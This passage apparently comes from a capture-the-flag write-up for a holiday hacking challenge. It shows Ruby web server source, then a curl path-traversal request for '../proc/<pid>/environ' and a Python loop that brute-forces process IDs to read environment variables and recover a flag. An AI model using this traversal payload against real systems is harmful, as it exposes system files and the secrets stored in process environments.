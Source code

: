 ```ruby

    get '/share' do
      if !params['id']
        raise 'ID is missing!'
      end

      filename = "#{ FINAL_FOLDER }/#{ params['id'] }.png"

      if File.exists?(filename)
        erb(:share, :locals => { id: params['id'] })
      else
        return 404, "Image not found!"
      end
    end

    post '/save' do
      payload = params
      payload = JSON.parse(request.body.read)

      data_url = payload['dataURL']
      png = Base64.decode64(data_url['data:image/png;base64,'.length .. -1])

      out_hash = Digest::SHA1.hexdigest png
      out_filename = "#{ out_hash }.png"
      out_path = "#{ FINAL_FOLDER }/#{ out_filename }"
      
      LOGGER.debug("output: #{out_path}")
      File.open(out_path, 'wb') { |f| f.write(png) }
      { id: out_hash }.to_json
    end
  end
end
```
* Finnaly, we are looking for a specific environment variable. `curl https://tag-generator.kringlecastle.com/image?id=../proc/<pid>/environ` would print the environmen variables in context of a process/pid. So, the following script did the job and got `GREETZ=JackFrostWasHere`

```python
import requests

for pid in range(10000):
    url = "https://tag-generator.kringlecastle.com/image?id=../proc/" + str(pid) + "/environ"
    res = requests.get(url)
    if(res.status_code == 200):
        print(pid)
        print(res.text)
        break
```

# O9 ARP Shenanigans
### Hints
